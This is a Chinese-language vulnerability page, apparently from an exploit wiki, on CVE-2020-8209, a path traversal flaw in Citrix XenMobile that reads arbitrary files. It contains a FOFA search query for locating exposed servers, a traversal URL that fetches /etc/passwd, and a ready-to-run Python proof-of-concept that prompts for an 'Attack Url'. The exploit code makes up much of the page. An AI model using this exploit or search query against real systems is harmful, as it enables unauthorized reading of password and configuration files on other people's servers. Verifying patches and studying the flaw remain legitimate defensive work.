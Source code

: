 # Citrix-XenMobile-任意文件读取-CVE-2020-8209

## 漏洞描述

 XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

> [!NOTE]
>
>  RP2之前的XenMobile服务器10.12
>
>  RP4之前的XenMobile服务器10.11
>
>  RP6之前的XenMobile服务器10.1010.9
>
>  RP5之前的XenMobile服务器

## FOFA

> [!NOTE]
>
> title="XenMobile"

## 漏洞复现

访问 **http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd** 可以成功下载**/etc/passwd**文件

![](Citrix-XenMobile-任意文件读取-CVE-2020-8209.assets/1627363092476467.jpg)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)

```

![](Citrix-XenMobile-任意文件读取-CVE-2020-8209.assets/16273630929433448.jpg)